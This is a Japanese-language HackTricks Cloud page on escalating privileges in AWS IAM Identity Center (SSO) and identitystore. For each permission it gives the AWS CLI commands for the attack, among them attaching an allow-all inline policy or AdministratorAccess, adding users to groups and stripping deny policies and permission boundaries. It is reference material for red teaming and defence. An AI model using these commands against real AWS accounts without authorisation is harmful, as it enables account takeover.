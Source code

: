 # AWS - SSO & identitystore Privesc

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する
- **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSOの詳細については、以下をチェックしてください:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**デフォルト**では、**管理アカウント**からの**権限を持つユーザー**のみがIAM Identity Centerにアクセスして**制御**できます。\
他のアカウントのユーザーは、アカウントが**委任管理者**である場合にのみ許可されます。\
[詳細についてはドキュメントを確認してください。](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~パスワードのリセット~~

このようなケースで特権を昇格させる簡単な方法は、ユーザーのパスワードをリセットする権限を持つことです。残念ながら、ユーザーにパスワードをリセットするためのメールを送信することしかできませんので、ユーザーのメールにアクセスする必要があります。

### `identitystore:CreateGroupMembership`

この権限を持つと、ユーザーをグループに設定して、グループが持つすべての権限を継承させることができます。

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% hint style="warning" %}
この場合、これらの権限を悪用するには、影響を受けるすべてのアカウント内にある**customer managed policyの名前を知っている必要があります**。
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

この権限を持つ攻撃者は、自分の管理下にあるユーザーにアカウントに対して権限セットを付与することができます。

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

指定されたユーザーに割り当てられたロール名に対するSTS短期クレデンシャルを返します。
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

ただし、どのようにしてアクセストークンを取得するかはわかりません（TODO）。

### `sso:DetachManagedPolicyFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからAWSの管理ポリシーとの関連付けを削除することができます。**管理ポリシー（拒否ポリシー）を取り外す**ことで、より多くの特権を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットから顧客管理ポリシーの関連付けを削除できます。**管理ポリシーをデタッチ（拒否ポリシー）**することで、より多くの特権を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

この権限を持つ攻撃者は、パーミッションセットからインラインポリシーの権限を削除することができます。インラインポリシー（拒否ポリシー）をデタッチすることで、**より多くの特権を付与することが可能**です。

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

この権限を持つ攻撃者は、パーミッションセットからパーミッション境界を削除できます。パーミッション境界から与えられたパーミッションセットへの制限を取り除くことで、**より多くの特権を付与することが可能**です。

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する
* **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
